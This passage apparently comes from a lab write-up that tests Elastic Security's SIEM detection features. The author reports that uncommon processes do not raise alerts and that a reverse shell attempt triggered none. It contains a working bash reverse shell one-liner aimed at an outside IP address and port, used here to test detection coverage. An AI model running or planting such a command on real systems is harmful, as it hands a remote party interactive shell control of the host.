 ![](../../../.gitbook/assets/image%20%2832%29.png)

Note that these uncommon processes will not appear in **Detection** tab, since by default there is no rules to match this list. I suppose this list of _Uncommon processes_ are only for additional information when inspecting a host, basically they are query logs and do some aggregation and filtering.

## Testing the Detection feature

One of the main feature of SIEM is its ability to generate alerts when malicious things happen. Let's test out the detection feature of this Elastic Security!

### Let's try spawning reverse shell <a id="84d8dc1c-84ff-41df-8ef0-cf27bf7e6419"></a>

Using this payload: `bash -i >& /dev/tcp/157.230.255.84/1337 0>&1`. After executing this command, we didn't see any alerts. We are able to see our bash exec process in the event list, but it didn't trigger any alert, which is disappointing.

![](../../../.gitbook/assets/image%20%2836%29.png)

